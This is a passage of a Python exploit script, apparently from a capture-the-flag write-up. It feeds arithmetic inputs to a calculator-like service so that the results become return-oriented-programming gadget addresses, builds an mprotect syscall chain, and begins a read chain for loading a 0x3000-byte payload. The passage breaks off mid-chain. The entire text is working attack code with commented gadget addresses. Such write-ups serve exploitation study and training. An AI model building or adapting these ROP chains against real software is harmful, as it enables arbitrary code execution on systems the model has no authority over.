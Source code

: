 ```python

add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("4660273\n")         # 12345 + 4660273 = 0x474c6a ; pop rax; pop rsi; ret
print r.recv()

add_align()

r.send("2\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("12335\n")         # 12345 - 12335 = 10 ; sys_mprotect
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("4607836\n")         # 12345 + 4607836 = 0x467f95: syscall; ret;
print r.recv()
#__[end mprotect ROP chain]__#



#__[start read ROP chain]__#
add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
#r.send("1094795500\n")
r.send("4788150\n")         # 12345 + 4788150 = 0x493fef ; pop rdi; ret
print r.recv()

add_align()
add_align()                 # reuse this to set rdi (stdin) = 0
add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("4409968\n")         # 12345 + 4409968 = 0x437aa9 ; pop rdx; pop rsi; ret
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("85\n")
print r.recv()
r.send("12203\n")         # 85 + 12203 = 0x3000 ; len to read
print r.recv()

add_align()
```